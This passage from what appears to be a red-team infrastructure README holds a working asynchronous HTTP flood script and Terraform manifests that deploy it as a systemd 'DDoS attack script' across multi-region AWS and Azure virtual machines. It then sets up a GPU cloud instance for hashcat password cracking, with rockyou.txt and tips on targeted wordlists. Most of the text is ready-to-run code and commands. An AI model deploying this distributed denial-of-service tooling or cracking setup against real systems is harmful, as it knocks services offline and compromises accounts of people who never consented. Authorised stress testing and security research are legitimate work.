    "Mozilla/5.0 (iPhone; CPU iPhone OS 17_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Mobile/15E148 Safari/604.1",
    "Mozilla/5.0 (Linux; Android 13; Pixel 7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Mobile Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edg/120.0.2210.91 Safari/537.36",
    "Mozilla/5.0 (iPad; CPU OS 17_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Mobile/15E148 Safari/604.1",
    "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6121.41 Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0",
    "Mozilla/5.0 (Linux; Android 14; SM-S918B) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6121.41 Mobile Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.94 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.94 Safari/537.36",
    "Mozilla/5.0 (Linux; Android 14; Pixel 8 Pro) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.94 Mobile Safari/537.36",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 17_4 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.4 Mobile/15E148 Safari/604.1",
    "Mozilla/5.0 (X11; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0",
    "Mozilla/5.0 (Windows NT 10.0; ARM64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.94 Safari/537.36",
    "Mozilla/5.0 (iPad; CPU OS 17_4 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.4 Mobile/15E148 Safari/604.1",
    "Mozilla/5.0 (Linux; Android 12; SM-A546E) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.94 Mobile Safari/537.36",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.94 Safari/537.36",
    "Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.7 Safari/537.36",
]

# Counter for successful requests
request_count = 0

# Function to fetch public IP
async def fetch_public_ip():
    try:
        async with aiohttp.ClientSession() as session:
            async with session.get("https://api.ipify.org") as response:
                ip = await response.text()
                return ip
    except Exception as e:
        return f"Error fetching IP: {e}"

# Function to send HTTP GET requests
async def send_requests(session):
    global request_count
    headers = {"User-Agent": random.choice(USER_AGENTS)}
    while True:
        try:
            if DRY_RUN:
                print(f"[DRY_RUN] Simulated request to {TARGET_URL}")
            else:
                async with session.get(TARGET_URL, headers=headers, timeout=REQUEST_TIMEOUT) as response:
                    await response.text()  # Ensure response is read
            request_count += 1
        except Exception:
            pass  # Ignore errors

# Main attack function
async def main():
    global request_count
    start_time = datetime.now()

    # Fetch and print public IP address
    print("Fetching public IP address...")
    public_ip = await fetch_public_ip()
    print(f"Public IP Address: {public_ip}")
    
    print(f"Attack against target {TARGET_URL} started at: {start_time} (DRY_RUN: {DRY_RUN})")

    timeout = aiohttp.ClientTimeout(total=REQUEST_TIMEOUT)
    async with aiohttp.ClientSession(timeout=timeout) as session:
        # Create tasks explicitly using asyncio.create_task
        tasks = [asyncio.create_task(send_requests(session)) for _ in range(CONCURRENCY)]
        
        # Run tasks concurrently for the specified duration
        await asyncio.sleep(DURATION)  # Let tasks run for the attack duration
        
        # Cancel all tasks after the duration
        for task in tasks:
            task.cancel()
        await asyncio.gather(*tasks, return_exceptions=True)

    end_time = datetime.now()
    print(f"Attack ended at: {end_time}")
    print(f"Total number of requests sent: {request_count}")

# Run the script
if __name__ == "__main__":
    asyncio.run(main())

```   

**Instructions**  

Generate the required ssh keys (both public and private) for connecting to the cloud VMs and put them in `~/.ssh/`:  

```console
ssh-keygen -t rsa -b 4096 -C "aws-ddos-redteam-infra" -f ~/.ssh/aws-ddos-redteam-infra
```  


Ensure the correct permissions are set for the keys:  
```sh
chmod 600 ~/.ssh/aws-ddos-redteam-infra
chmod 644 ~/.ssh/aws-ddos-redteam-infra.pub
```  


Now modify the parameters in `ddos_script.py` and also the number and types of EC2 instances to create in `main.tf`.   


Now procede to initialize terraform, produce the provisioning plan and launch the deployment:  
```sh
terraform init && terraform plan && terraform apply
```  


> [!NOTE]  
> If you get keys not present error during the provisioning, it is possible that you might have to upload the keys to different regions manually:   
> `aws ec2 import-key-pair --region <region-here> --key-name aws-ddos-redteam-infra --public-key-material file://~/.ssh/aws-ddos-redteam-infra.pub`    


Once the provisioning is completed, terraform will output something similar to the following:  
```console
Apply complete! Resources: 10 added, 0 changed, 0 destroyed.

Outputs:

ap_south_instance_ips = [
  "65.0.6.216",
  "13.233.22.168",
]
eu_north_instance_ips = [
  "51.21.150.77",
  "13.49.72.11",
]
eu_west_instance_ips = [
  "3.254.115.92",
  "34.244.127.104",
]
```  

At this point you can connect to the machines with the following command:  
```sh
ssh -i ~/.ssh/aws-ddos-redteam-infra ubuntu@<instance-public-ip>
```  

Once on the machine, verify the status of the DDoS service with the following command:  
```sh
sudo systemctl status ddos_script.service
```  

In the output of the previous command, you will also find the ddos service logs, for example:  
```console
ddos_script.service - DDoS attack script
     Loaded: loaded (/etc/systemd/system/ddos_script.service; enabled; preset: enabled)
     Active: inactive (dead) since Wed 2024-10-23 15:55:21 UTC; 53s ago
   Duration: 13.252s
    Process: 1333 ExecStart=/usr/bin/python3 /home/ubuntu/ddos_script.py (code=exited, status=0/SUCCESS)
   Main PID: 1333 (code=exited, status=0/SUCCESS)
        CPU: 22.860s

Oct 23 15:55:08 ip-172-31-18-78 systemd[1]: Started ddos_script.service - DDoS attack script.
Oct 23 15:55:21 ip-172-31-18-78 python3[1333]: Attack against target https://example.com started at: 2024-10-23 15:55:09.649547
Oct 23 15:55:21 ip-172-31-18-78 python3[1333]: Attack ended at: 2024-10-23 15:55:21.395468
Oct 23 15:55:21 ip-172-31-18-78 python3[1333]: Total number of requests sent: 278
Oct 23 15:55:21 ip-172-31-18-78 systemd[1]: ddos_script.service: Deactivated successfully.
```  

If you want to destroy the infrastructure run:  
```sh
terraform destroy
```  


## Deploy Azure Infrastructure for DDoS Engagements
Similar to [aws](#deploy-aws-infrastructure-for-ddos-engagements), you can also provision the infrastructure on azure.  

Here is the PoC for the `main.tf`:  
```hcl
terraform {
  required_version = "= 1.9.8"

  required_providers {
    azurerm = {
      source  = "hashicorp/azurerm"
      version = "= 3.71.0"
    }
  }
}

provider "azurerm" {
  features {}
  skip_provider_registration = true
}


# Resource group
resource "azurerm_resource_group" "rg_west_europe" {
  name     = "rg-ddos-west-europe"
  location = "West Europe"
}

# Storage account and container
resource "azurerm_storage_account" "storage_account" {
  name                     = "myredteamstorageaccount"  # must be globally unique
  resource_group_name      = azurerm_resource_group.rg_west_europe.name
  location                 = azurerm_resource_group.rg_west_europe.location
  account_tier             = "Standard"
  account_replication_type = "LRS"
}

resource "azurerm_storage_container" "scripts" {
  name                  = "scripts"
  storage_account_name  = azurerm_storage_account.storage_account.name
  container_access_type = "blob"
}

# Read the local script file
resource "local_file" "ddos_script" {
  filename = "${path.module}/ddos_script.py"
  content  = file("${path.module}/ddos_script.py")
}

# Read the local service file
resource "local_file" "ddos_service" {
  filename = "${path.module}/ddos_script.service"
  content  = file("${path.module}/ddos_script.service")
}

# Upload script to storage as a blob
resource "azurerm_storage_blob" "ddos_script_blob" {
  name                   = "ddos_script.py"
  storage_account_name   = azurerm_storage_account.storage_account.name
  storage_container_name = azurerm_storage_container.scripts.name
  type                   = "Block"
  source                 = local_file.ddos_script.filename
}

# Upload service to storage as a blob
resource "azurerm_storage_blob" "ddos_service_blob" {
  name                   = "ddos_script.service"
  storage_account_name   = azurerm_storage_account.storage_account.name
  storage_container_name = azurerm_storage_container.scripts.name
  type                   = "Block"
  source                 = local_file.ddos_service.filename
}


# Networking components
resource "azurerm_virtual_network" "vnet" {
  name                = "vnet-ddos"
  location            = azurerm_resource_group.rg_west_europe.location
  resource_group_name = azurerm_resource_group.rg_west_europe.name
  address_space       = ["10.0.0.0/16"]
}

resource "azurerm_subnet" "subnet" {
  name                 = "subnet-ddos"
  resource_group_name  = azurerm_resource_group.rg_west_europe.name
  virtual_network_name = azurerm_virtual_network.vnet.name
  address_prefixes     = ["10.0.1.0/24"]
}

# Create multiple public IPs
resource "azurerm_public_ip" "pip_west_europe" {
  count              =8
  name               = "pip-ddos-west-europe-${count.index}"
  location           = azurerm_resource_group.rg_west_europe.location
  resource_group_name = azurerm_resource_group.rg_west_europe.name
  allocation_method  = "Static"
}

# Create multiple network interfaces
resource "azurerm_network_interface" "nic_west_europe" {
  count               =8
  name                = "nic-ddos-west-europe-${count.index}"
  location            = azurerm_resource_group.rg_west_europe.location
  resource_group_name = azurerm_resource_group.rg_west_europe.name

  ip_configuration {
    name                          = "internal"
    subnet_id                     = azurerm_subnet.subnet.id
    private_ip_address_allocation = "Dynamic"
    public_ip_address_id          = azurerm_public_ip.pip_west_europe[count.index].id
  }
}

# VMs creation and Custom Script Extension
# Create multiple VMs
resource "azurerm_linux_virtual_machine" "vm_west_europe" {
  count               =8
  name                = "vm-ddos-west-europe-${count.index}"
  location            = azurerm_resource_group.rg_west_europe.location
  resource_group_name = azurerm_resource_group.rg_west_europe.name
  size                = "Standard_B1ls"
  admin_username      = "ubuntu"
  network_interface_ids = [azurerm_network_interface.nic_west_europe[count.index].id]
  
  admin_ssh_key {
    username   = "ubuntu"
    public_key = file("~/.ssh/az-ddos-redteam-infra.pub")
  }

  os_disk {
    caching              = "ReadWrite"
    storage_account_type = "Standard_LRS"
    disk_size_gb         = 30
  }

  source_image_reference {
    publisher = "Canonical"
    offer     = "UbuntuServer"
    sku       = "18.04-LTS"
    version   = "latest"
  }
}

# VM Extension for each VM
resource "azurerm_virtual_machine_extension" "ddos_script" {
  count                =8
  name                 = "ddos-script-${count.index}"
  virtual_machine_id   = azurerm_linux_virtual_machine.vm_west_europe[count.index].id
  publisher            = "Microsoft.Azure.Extensions"
  type                 = "CustomScript"
  type_handler_version = "2.0"

  settings = <<SETTINGS
    {
      "fileUris": [
        "${azurerm_storage_blob.ddos_script_blob.url}",
        "${azurerm_storage_blob.ddos_service_blob.url}"
      ],
      "commandToExecute": "bash -c 'sudo cp ddos_script.py /home/ubuntu/ && sudo cp ddos_script.service /etc/systemd/system/ && sudo systemctl daemon-reload && sudo systemctl start ddos_script && sudo systemctl enable ddos_script'"
    }
  SETTINGS
}

# Output each VM's IP address
output "vm_ip_addresses" {
  value = [for pip in azurerm_public_ip.pip_west_europe : pip.ip_address]
}

```  


## Deploy a GPU-based cloud instance for password cracking   

**Abstract**  
This section contains terraform manifest and istructions to deploy a password cracking machine on [*Lambda Labs*](https://lambdalabs.com/).  
The created instance will already have `hashcat` installed, along with the `rockyou.txt` (134 M) dictionary and an example hash file (you need to create the example file: `example_hashes.txt`).  

> [!TIP]  
To make Hashcat password cracking more effective in real-world scenarios, rely on diverse wordlists beyond `rockyou.txt`, such as [*these*](https://github.com/danielmiessler/SecLists/tree/master/Passwords) and custom corpora built from OSINT scraping.  
Leverage rule-based attacks like [*OneRuleToRuleThemAll*](https://github.com/NotSoSecure/password_cracking_rules) to generate permutations efficiently. 
Use modern tools like [*cewl*](https://github.com/digininja/CeWL) to generate context-aware, targeted wordlists from breached data and common patterns. 


**Prerequisites**  
- Terraform 
- Lambda labs account
- Lambda labs API Key
- Lambda labs SSH Key 

**Instructions**  

First of all, create a `.env` file with the following structure:  
```sh
export LAMBDALABS_API_KEY=<your-lambdalabs-api-key-here>
```  
Now, source the file with `source .env` and test the connection to lambda labs REST APIs:  
```sh
curl -s -u $LAMBDALABS_API_KEY: https://cloud.lambdalabs.com/api/v1/instance-types | jq .
```  
The previous command will return a list of all available istance types and their price (you can change the default istance specified in the `main.tf` file if you want a more powerfull one). 

Now put your lambda labs private ssh key inside an `ssh` directory in the root of your folder.  
> [!WARNING]  
> Remember to change permissions on the file:  `chmod 600 ssh/<your-private-key-pem-file>`  
 

If you already have a file of captured hashes that you wish to crack, place it inside the `hashes` folder, modify the terraform and it will be copied to the remote instance during provisioning.  
If you need another dictionary, copy it on the machine via scp or download it from the internet directly on the machine. 

Create the following `main.tf` file:  
```hcl
terraform {
  required_providers {
    lambdalabs = {
      source = "elct9620/lambdalabs"
      version = "0.4.0"
    }
  }
}

provider "lambdalabs" {}


resource "lambdalabs_instance" "hash_cracking" {
  region_name        = "us-east-1"
  instance_type_name = "gpu_1x_a100_sxm4" # change this and the region if you want other istance type
  ssh_key_names = [
    "red-team-terraform-provisioning"
  ]

  connection {
    type     = "ssh"
      user     = "ubuntu"
      private_key = file("${path.module}/ssh/red-team-terraform-provisioning.pem")
      host     = self.ip
  }

  provisioner "file" {
    source      = "${path.module}/hashes/hashes_example.txt"
    destination = "/home/ubuntu/hashes_example.txt"
  }


  provisioner "remote-exec" {
    inline = [
      "sudo apt update && sudo apt install -y curl wget hashcat",
      "wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt"
    ]
  }

}


output "instance_ip" {
  value = lambdalabs_instance.hash_cracking.ip
}

```  


Init terraform and launch the plan:  
```sh
terraform init && terraform plan
```  

If you are ok with the plan, apply:  
```sh
terraform apply -auto-approve
```  

> [!WARNING]  
> With the previous manifest, terraform state is only saved locally.  

The provisioning takes 5 minutes on average, in the end terraform will print the istance public ip address.    

Connect to the machine via ssh in a single command:  
```sh
ssh -i ssh/red-team-terraform-provisioning.pem -o IdentitiesOnly=yes ubuntu@$(terraform output -raw instance_ip)
```  

Now that you are connected, confirm that hashcat and the NVIDIA drivers are installed and the GPU is recognized:  
```sh
nvidia-smi && hashcat --version
```  

Now crack your hashes, for example:  
```sh
hashcat -m 1000 -a 0 -o cracked.txt /home/ubuntu/hashes_example.txt /home/ubuntu/rockyou.txt
```  

if you want to confirm that the GPU is being used, open another session and run:  
```sh
watch -n 1 nvidia-smi
```  

Once you are done, destroy everything with:  
```sh
terraform destroy -auto-approve
```  


